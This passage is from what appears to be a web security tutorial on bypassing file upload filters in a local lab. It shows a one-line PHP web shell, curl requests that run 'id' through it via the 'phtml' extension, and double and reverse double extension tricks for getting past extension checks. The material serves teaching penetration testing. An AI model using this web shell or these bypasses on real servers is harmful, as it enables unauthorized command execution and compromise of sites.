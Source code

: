In this case, we can fuzz the file extension and see if any [valid PHP extension](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology) has been left out of it (Figure 9).

<figure><img src="../../.gitbook/assets/web_fileUpload_serverSide_6.png" alt=""><figcaption><p>Figure 9: Fuzzing for valid <code>php</code> extensions.</p></figcaption></figure>

By trying both `php5` and `phtml` , we see that only the latter works as the server is not configured to interpret the former as a valid PHP script.

```bash
$ curl http://localhost/labs/uploads/shell.php5?cmd=id
����<?php system($_GET['cmd']); ?>

$ curl http://localhost/labs/uploads/shell.phtml?cmd=id
����uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Some filters might **only check if the extension exists** within the file name, which can be bypassed by renaming the file to `webshell.jpg.phar` (**double extension method**).  Others, might require for the file name to end with an allowed extension so we will have to switch the extensions over, i.e.,  `webshell.phar.jpg` (Figure 10) (**reverse double extension method**).

<figure><img src="../../.gitbook/assets/tGLZ1RJh8w.png" alt=""><figcaption><p>Figure 10: Bypassing the extension filter using double extensions.</p></figcaption></figure>
